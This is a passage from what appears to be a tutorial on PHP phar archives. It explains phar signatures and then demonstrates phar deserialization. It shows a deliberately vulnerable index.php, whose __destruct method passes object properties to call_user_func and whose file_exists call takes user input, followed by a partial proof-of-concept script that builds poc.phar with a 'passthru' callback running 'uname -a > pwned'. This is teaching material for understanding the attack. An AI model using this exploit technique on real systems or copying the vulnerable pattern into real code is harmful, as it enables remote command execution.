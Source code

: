 - [a signature for verifying phar integrity (file format only)](https://www.php.net/manual/en/phar.fileformat.signature.php)

    The signature of a phar is always added at the end of the phar archive, following by the loader, manifest, and file contents. The signature is added automatically when creating a phar programmatically.

    Keep in mind that SHA1 is the default signature type for all executable phar archives. Phar's signature can be set to different algorithm such as `Phar::MD5, Phar::SHA1, Phar::SHA256, Phar::SHA512, Phar::OPENSSL`. In order to [set different signature algorithm](https://www.php.net/manual/en/phar.setsignaturealgorithm.php), use this:
    ```php
    Phar::setSignatureAlgorithm(int $algo, ?string $privateKey = null)
    ```

## How to use phar archive

Here is the example of vulnerable php application. Basically, this application will receive input from the user and check if it exists or not.
```php 
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: index.php
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?php
   2   │ 
   3   │ class VulnerableClass {
   4   │     public $fileName;
   5   │     public $callback;
   6   │ 
   7   │     function __destruct() {
   8   │         call_user_func($this->callback, $this->fileName);
   9   │     }
  10   │ }
  11   │ 
  12   │ $file = $argv[1];
  13   │ 
  14   │ if(file_exists($file)) {
  15   │     echo "File is exists";
  16   │ }
```

Here is the example of creating phar archive.

```php
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: create.php
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?php
   2   │ class VulnerableClass { }
   3   │ // Create a new instance of the Dummy class and modify its property
   4   │ $dummy = new VulnerableClass();
   5   │ $dummy->callback = "passthru";
   6   │ $dummy->fileName = "uname -a > pwned"; //our payload
   7   │ 
   8   │ // Delete any existing PHAR archive with that name
   9   │ @unlink("poc.phar");
  10   │ 
  11   │ // Create a new archive
  12   │ $poc = new Phar("poc.phar");
  13   │ 
  14   │ // Add all write operations to a buffer, without modifying the archive on disk
  15   │ $poc->startBuffering();
```